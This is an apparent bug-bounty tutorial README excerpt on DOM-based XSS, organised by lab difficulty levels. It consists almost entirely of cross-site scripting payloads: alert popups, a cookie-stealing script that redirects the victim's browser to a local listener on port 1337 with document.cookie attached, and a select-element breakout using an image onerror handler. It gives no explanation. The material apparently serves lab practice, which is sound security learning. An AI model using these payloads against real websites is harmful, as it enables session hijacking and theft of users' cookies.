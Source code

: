 # bug-bounty-tutorial
bug bounty tutorial

## 16.xss dom

### low
```
<script>alert('hacked')</script>
<script>alert(document.cookie)</script>

python -m http.server 1337
webup
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium
```
</select><image src/onerror=alert(1)>
```
